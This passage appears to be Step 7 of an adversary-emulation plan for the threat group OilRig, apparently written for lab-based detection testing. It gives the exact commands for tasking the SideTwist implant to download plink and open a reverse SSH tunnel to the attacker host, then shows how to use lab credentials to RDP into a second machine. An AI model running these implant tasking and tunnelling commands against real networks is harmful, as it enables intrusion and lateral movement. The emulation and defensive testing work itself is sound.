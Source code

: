 ### :microscope: Cited Intelligence
*  Credential dumping: https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/

<br>


## Step 7 - Lateral Movement to EWS via RDP Tunnel

### :microphone: Voice Track

Step 7 emulates OilRig moving laterally to `WATERFALLS (10.1.0.6)`. This is 
accomplished with a remote port forward using the plink command line tool 
(downloaded by `SystemFailureReporter.exe`). OilRig conducts a remote port forward 
from `THEBLOCK (10.1.0.5)` to the attacking machine to allow RDP access through 
port 3389 as user `gosta`.

---

### :biohazard: Procedures

Download plink to `THEBLOCK (10.1.0.5)` using SideTwist and start plink tunnel 
to gain RDP access to `WATERFALLS (10.1.0.6)` from the Linux Attack Platform.

```bash
./evalsC2client.py --set-task goTb '102 c:\users\public\downloads\plink.exe|plink.exe'
```

Execute the remote port forward command using SideTwist. Note: this SideTwist 
process will persist as long as the tunnel is open and as such will need to be 
closed after the activity is done. SideTwist will continue to execute
via schtask so other commands can be issued to the implant if needed.

```bash
./evalsC2client.py --set-task goTb '101 echo y | c:\users\public\downloads\plink.exe -ssh -N -R 192.168.0.4:13389:10.1.0.6:3389 -l saka -pw "$ceKa#zU$Uc4^9yZ" 192.168.0.4'
```

Ensure that the tunnel is open and listening on port 13389 on Linux Attack Platform.

```bash
netstat -antulp | grep 13389
```

You should see a result that looks like the following:
```
tcp        0      0 127.0.0.1:13389         0.0.0.0:*               LISTEN
```

RDP to `WATERFALLS (10.1.0.6)` as user Gosta from Linux Attack Platform using the SSH
tunnel.

```bash
xfreerdp /u:'boombox\gosta' /p:'d0ntGoCH4$ingW8trfalls' /v:localhost:13389
```

<br>
